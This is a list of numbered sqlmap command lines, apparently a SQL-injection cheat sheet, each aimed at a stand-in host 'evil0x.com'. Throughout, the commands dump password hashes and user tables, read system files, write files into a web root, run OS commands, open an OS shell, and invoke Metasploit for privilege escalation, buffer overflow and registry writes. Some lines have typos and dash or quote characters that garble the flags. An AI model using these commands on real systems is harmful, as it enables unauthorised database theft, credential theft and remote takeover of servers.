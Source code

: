 2.

./sqlmap.py -u http://www.evil0x.com/ test.php?p=2 -b –passwords -U root –union-use -v 2

3.

./sqlmap.py -u http://www.evil0x.com/ test.php?p=2 -b –dump -T users -C username -D userdb –start 2 –stop 3 -v 2

4.

./sqlmap.py -u http://www.evil0x.com/ test.php?p=2 -b –dump -C “user,pass” -v 1 –exclude-sysdbs

5.

./sqlmap.py -u http://www.evil0x.com/ test.php?p=2 -b –sql-shell -v 2

6.

./sqlmap.py -u http://www.evil0x.com/ test.php?p=2 -b –file-read “c:\boot.ini” -v 2

7.

./sqlmap.py -u http://www.evil0x.com/ test.php?p=2 -b –file-write /test/test.txt –file-dest /var/www/html/1.txt -v 2

8.

./sqlmap.py -u http://www.evil0x.com/ test.php?p=2 -b –os-cmd “id” -v 1

9.

./sqlmap.py -u http://www.evil0x.com/ test.php?p=2 -b –os-shell –union-use -v 2

10.

./sqlmap.py -u http://www.evil0x.com/ test.php?p=2 -b –os-pwn –msf-path=/opt/framework/msf3 –priv-esc -v 1

11.

./sqlmap.py -u http://www.evil0x.com/ test.php?p=2 -b –os-pwn –msf-path=/opt/framework/msf3 -v 1

12.

./sqlmap.py -u http://www.evil0x.com/ test.php?p=2 -b –os-bof –msf-path=/opt/framework/msf3 -v 1

13.

./sqlmap.py -u http://www.evil0x.com/ test.php?p=2 –reg-add –reg-key=”HKEY_LOCAL_NACHINE\SOFEWARE\sqlmap” –reg-value=Test –reg-type=REG_SZ –reg-data=1

14.

./sqlmap.py -u http://www.evil0x.com/ test.php?p=2 -b –eta

15.

./sqlmap.py -u “http://www.evil0x.com/ sqlmap/mysql/get_str_brackets.php?id=1″ -p id –prefix “‘)” –suffix “AND (‘abc’='abc”

16.

./sqlmap.py -u “http://www.evil0x.com/ sqlmap/mysql/basic/get_int.php?id=1″ –auth-type Basic –auth-cred “testuser:testpass”
